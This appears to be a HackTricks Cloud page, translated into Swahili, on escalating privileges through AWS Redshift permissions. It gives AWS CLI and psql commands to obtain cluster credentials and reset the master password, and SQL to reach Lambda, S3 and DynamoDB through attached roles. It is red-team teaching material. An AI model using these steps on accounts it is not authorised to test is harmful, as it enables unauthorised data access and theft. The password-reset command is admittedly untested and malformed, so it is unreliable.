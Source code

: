 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

Kwa maelezo zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Kwa ruhusa hizi unaweza kupata **habari za makundi yote** (ikiwemo jina na jina la mtumiaji wa kundi) na **kupata akreditif** za kuweza kufikia:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Kwa ruhusa hizi unaweza kupata **taarifa za makundi yote** na **kupata akreditivu** za kuweza kuyafikia.\
Kumbuka kwamba mtumiaji wa postgres atakuwa na **ruhusa ambazo utambulisho wa IAM** ulitumika kupata akreditivu hizo unazo.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Inawezekana **kubadilisha nenosiri la mkuu** la mtumiaji wa ndani wa postgres (redshit) kutoka aws cli (nadhani hizo ndizo ruhusa unazohitaji lakini sijazijaribu bado):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

## Kufikia Huduma za Nje

{% hint style="warning" %}
Ili kufikia rasilimali zote zifuatazo, utahitaji **kueleza jukumu la kutumia**. Klasta ya Redshift **inaweza kuwa na orodha ya majukumu ya AWS** ambayo unaweza kutumia **ikiwa unajua ARN** au unaweza tu kuweka "**default**" kutumia ile ya default iliyotolewa.

Zaidi ya hayo, kama [**ilivyoelezwa hapa**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift pia inaruhusu kuunganisha majukumu (mradi tu jukumu la kwanza linaweza kuchukua jukumu la pili) ili kupata ufikiaji zaidi lakini kwa **kuvitenga** kwa **alama ya koma**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Kama ilivyoelezwa katika [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), inawezekana **kuita kazi ya lambda kutoka redshift** kwa kitu kama:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Kama ilivyoelezwa katika [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), inawezekana **kusoma na kuandika kwenye S3 buckets**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Kama ilivyoelezwa katika [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), inawezekana **kupata data kutoka dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Jedwali la Amazon DynamoDB linalotoa data lazima liundwe katika Mkoa mmoja wa AWS kama klasta yako isipokuwa utumie chaguo la [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) kubaini Mkoa wa AWS ambapo jedwali la Amazon DynamoDB liko.
{% endhint %}

### EMR

Angalia [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
